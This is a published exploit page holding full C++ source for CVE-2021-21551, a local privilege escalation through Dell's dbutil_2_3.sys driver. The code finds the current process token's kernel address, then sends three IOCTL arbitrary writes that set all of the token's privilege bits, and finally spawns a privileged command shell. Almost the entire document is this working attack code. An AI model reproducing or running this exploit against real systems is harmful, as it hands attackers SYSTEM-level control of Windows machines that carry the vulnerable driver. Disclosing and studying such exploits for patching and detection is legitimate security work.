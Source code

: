 EXP
---

    # Exploit Title: DELL dbutil_2_3.sys 2.3 - Arbitrary Write to Local Privilege Escalation (LPE)
    # Date: 10/05/2021
    # Exploit Author: Paolo Stagno aka VoidSec
    # Version: <= 2.3
    # CVE: CVE-2021-21551
    # Tested on: Windows 10 Pro x64 v.1903 Build 18362.30
    # Blog: https://voidsec.com/reverse-engineering-and-exploiting-dell-cve-2021-21551/

    #include <iostream>
    #include <windows.h>
    #include <winternl.h>
    #include <tlhelp32.h>
    #include <algorithm>

    #define IOCTL_CODE 0x9B0C1EC8 // IOCTL_CODE value, used to reach the vulnerable function (taken from IDA)
    #define SystemHandleInformation 0x10
    #define SystemHandleInformationSize 1024 * 1024 * 2

    // define the buffer structure which will be sent to the vulnerable driver
    typedef struct Exploit
    {
        uint64_t    Field1;     // "padding" can be anything
        void*       Field2;     // where to write
        uint64_t    Field3;     // must be 0
        uint64_t    Field4;     // value to write
    };

    typedef struct outBuffer
    {
        uint64_t    Field1;
        uint64_t    Field2;
        uint64_t    Field3;
        uint64_t    Field4;
    };

    // define a pointer to the native function 'NtQuerySystemInformation'
    using pNtQuerySystemInformation = NTSTATUS(WINAPI*)(
        ULONG SystemInformationClass,
        PVOID SystemInformation,
        ULONG SystemInformationLength,
        PULONG ReturnLength);

    // define the SYSTEM_HANDLE_TABLE_ENTRY_INFO structure
    typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
    {
        USHORT UniqueProcessId;
        USHORT CreatorBackTraceIndex;
        UCHAR ObjectTypeIndex;
        UCHAR HandleAttributes;
        USHORT HandleValue;
        PVOID Object;
        ULONG GrantedAccess;
    } SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

    // define the SYSTEM_HANDLE_INFORMATION structure
    typedef struct _SYSTEM_HANDLE_INFORMATION
    {
        ULONG NumberOfHandles;
        SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
    } SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

    int main(int argc, char** argv)
    {

        // open a handle to the device exposed by the driver - symlink is \\.\\DBUtil_2_3
        HANDLE device = ::CreateFileW(
            L"\\\\.\\DBUtil_2_3",
            GENERIC_WRITE | GENERIC_READ,
            NULL,
            nullptr,
            OPEN_EXISTING,
            NULL,
            NULL);
        if (device == INVALID_HANDLE_VALUE)
        {
            std::cout << "[!] Couldn't open handle to DBUtil_2_3 driver. Error code: " << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Opened a handle to DBUtil_2_3 driver!\n";

        // resolve the address of NtQuerySystemInformation and assign it to a function pointer
        pNtQuerySystemInformation NtQuerySystemInformation = (pNtQuerySystemInformation)::GetProcAddress(::LoadLibraryW(L"ntdll"), "NtQuerySystemInformation");
        if (!NtQuerySystemInformation)
        {
            std::cout << "[!] Couldn't resolve NtQuerySystemInformation API. Error code: " << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Resolved NtQuerySystemInformation!\n";

        // open the current process token - it will be used to retrieve its kernelspace address later
        HANDLE currentProcess = ::GetCurrentProcess();
        HANDLE currentToken = NULL;
        bool success = ::OpenProcessToken(currentProcess, TOKEN_ALL_ACCESS, &currentToken);
        if (!success)
        {
            std::cout << "[!] Couldn't open handle to the current process token. Error code: " << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Opened a handle to the current process token!\n";

        // allocate space in the heap for the handle table information which will be filled by the call to 'NtQuerySystemInformation' API
        PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(::GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);

        // call NtQuerySystemInformation and fill the handleTableInformation structure
        ULONG returnLength = 0;
        NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLength);

        uint64_t tokenAddress = 0;
        // iterate over the system's handle table and look for the handles beloging to our process
        for (int i = 0; i < handleTableInformation->NumberOfHandles; i++)
        {
            SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[i];
            // if it finds our process and the handle matches the current token handle we already opened, print it
            if (handleInfo.UniqueProcessId == ::GetCurrentProcessId() && handleInfo.HandleValue == (USHORT)currentToken)
            {
                tokenAddress = (uint64_t)handleInfo.Object;
                std::cout << "[+] Current token address in kernelspace is at: 0x" << std::hex << tokenAddress << std::endl;
            }
        }

        outBuffer buffer =
        {
            0,
            0,
            0,
            0
        };

        /*
        dt nt!_SEP_TOKEN_PRIVILEGES
           +0x000 Present          : Uint8B
           +0x008 Enabled          : Uint8B
           +0x010 EnabledByDefault : Uint8B

        We've added +1 to the offsets to ensure that the low bytes part are 0xff.
        */

        // overwrite the _SEP_TOKEN_PRIVILEGES  "Present" field in the current process token
        Exploit exploit =
        {
            0x4141414142424242,
            (void*)(tokenAddress + 0x40),
            0x0000000000000000,
            0xffffffffffffffff
        };

        // overwrite the _SEP_TOKEN_PRIVILEGES  "Enabled" field in the current process token
        Exploit exploit2 =
        {
            0x4141414142424242,
            (void*)(tokenAddress + 0x48),
            0x0000000000000000,
            0xffffffffffffffff
        };

        // overwrite the _SEP_TOKEN_PRIVILEGES  "EnabledByDefault" field in the current process token
        Exploit exploit3 =
        {
            0x4141414142424242,
            (void*)(tokenAddress + 0x50),
            0x0000000000000000,
            0xffffffffffffffff
        };

        DWORD bytesReturned = 0;
        success = DeviceIoControl(
            device,
            IOCTL_CODE,
            &exploit,
            sizeof(exploit),
            &buffer,
            sizeof(buffer),
            &bytesReturned,
            nullptr);
        if (!success)
        {
            std::cout << "[!] Couldn't overwrite current token 'Present' field. Error code: " << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Successfully overwritten current token 'Present' field!\n";

        success = DeviceIoControl(
            device,
            IOCTL_CODE,
            &exploit2,
            sizeof(exploit2),
            &buffer,
            sizeof(buffer),
            &bytesReturned,
            nullptr);
        if (!success)
        {
            std::cout << "[!] Couldn't overwrite current token 'Enabled' field. Error code: " << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Successfully overwritten current token 'Enabled' field!\n";

        success = DeviceIoControl(
            device,
            IOCTL_CODE,
            &exploit3,
            sizeof(exploit3),
            &buffer,
            sizeof(buffer),
            &bytesReturned,
            nullptr);
        if (!success)
        {
            std::cout << "[!] Couldn't overwrite current token 'EnabledByDefault' field. Error code:" << ::GetLastError() << std::endl;
            return -1;
        }
        std::cout << "[+] Successfully overwritten current token 'EnabledByDefault' field!\n";
        std::cout << "[+] Token privileges successfully overwritten!\n";
        std::cout << "[+] Spawning a new shell with full privileges!\n";

        system("cmd.exe");

        return 0;
    }